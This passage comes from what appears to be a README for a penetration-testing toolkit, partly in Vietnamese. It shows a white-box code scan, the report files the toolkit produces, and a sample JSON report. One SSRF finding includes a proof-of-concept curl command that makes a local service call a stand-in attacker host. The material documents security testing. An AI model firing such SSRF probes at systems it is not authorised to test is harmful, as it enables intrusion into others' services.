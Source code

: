 ### **Scenario 3: White Box - Code audit**

```bash
# Step 1: Scan code
python cli.py --mode whitebox --source-path ./app --output scan3

# Output:
# [CRITICAL] app.py:35 - requests.get(callback_url)
# [CRITICAL] No validation on user input!
# [HIGH] UserController.java:58 - HttpURLConnection with @RequestParam
```

---

## 📊 **OUTPUT**

Toolkit tạo ra các files sau:

```
reports/
├── findings.db                     # SQLite database (tất cả findings)
├── pentest_20251008_143000.json    # JSON report
├── pentest_20251008_143000.html    # HTML report (visual)
├── pentest_20251008_143000.pdf     # PDF report (executive summary)
├── pentest_20251008_143000.log     # Detailed logs
├── docker_inspection.json          # Docker topology
└── code_scan_report.md             # Code scan findings
```

### **JSON Report Structure**

```json
{
  "metadata": {
    "scan_id": "session_123",
    "timestamp": "2025-10-08T14:30:00",
    "mode": "all",
    "duration": 1234.56,
    "target": "http://localhost:8083"
  },
  "statistics": {
    "total_findings": 15,
    "by_severity": {
      "CRITICAL": 3,
      "HIGH": 5,
      "MEDIUM": 4,
      "LOW": 3
    },
    "by_mode": {
      "blackbox": 6,
      "graybox": 4,
      "whitebox": 5
    }
  },
  "findings": [
    {
      "id": 1,
      "severity": "CRITICAL",
      "category": "SSRF",
      "title": "Confirmed SSRF via callback_url parameter",
      "description": "External callback received...",
      "affected_url": "http://localhost:8083/inventory/1/M",
      "proof_of_concept": "curl 'http://localhost:8083/inventory/1/M?callback_url=http://attacker.com'",
      "remediation": "Implement URL whitelist",
```